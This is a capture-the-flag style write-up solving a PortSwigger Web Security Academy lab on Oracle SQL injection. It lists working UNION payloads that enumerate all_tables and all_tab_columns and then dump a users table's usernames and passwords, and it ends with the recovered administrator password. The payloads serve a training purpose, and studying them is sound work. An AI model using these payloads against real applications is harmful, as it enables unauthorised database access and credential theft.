






## LAB 8: SQL injection attack, listing the database contents on Oracle  
[SQL injection attack, listing the database contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)  
**LEVEL**: PRACTITIONER  
**Description**: This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

## Solution

1. Figure out the names of other tables in the database
2. Fetch the usernames and passwords from one of the tables
3. Login as administrator

### 1. Figure out the names of other tables in the database
We need to figure out the names of other tables in the database. Since we already know its a Oracle database we can look in the Burpsuite SQL Inject cheat sheet to figure the name of the table that will allow us to fetch other tables. `all_tables` exists in Oracle database which contains the name of the tables within the databse as per [documentation](https://docs.oracle.com/cd/B19306_01/server.102/b14237/statviews_2105.htm#REFRN20286). We can use `' UNION SELECT table_name,NULL FROM all_tables--` to list out the names of all the tables in the database.

Full URL: `https://ac4e1fd71f1b4abac0aa5f050072002e.web-security-academy.net/filter?category=Accessories' UNION SELECT table_name,NULL FROM all_tables--`

### 2. Fetch the usernames & passwords from one fo the tables
We need to figure out which table contains the username & password. I have already gone through a few of the tables and figured out that `USERS_ILYYMA` contains the usernames and passwords for the application.

We now need to list the columns in the tables. We can do this using the following query: `' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_ILYYMA'--`.

FULL URL: `https://ac4e1fd71f1b4abac0aa5f050072002e.web-security-academy.net/filter?category=Accessories' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_ILYYMA'--`

We have now found that there are two columns in this table `USERNAME_VNSQMB` & `PASSWORD_CINOJD` which contain the usernames & passwords for the application. We now need to list all the usernames and passwords from the table this can be done using the following query: `' UNION SELECT USERNAME_VNSQMB,PASSWORD_CINOJD FROM USERS_ILYYMA--`

FULL URL: `https://ac4e1fd71f1b4abac0aa5f050072002e.web-security-academy.net/filter?category=Accessories' UNION SELECT USERNAME_VNSQMB,PASSWORD_CINOJD FROM USERS_ILYYMA--`

### 4. Login as administrator
Logging in as `administrator` with the password `plmhkterzkk6tjxogtb9`.

<!-- EOF -->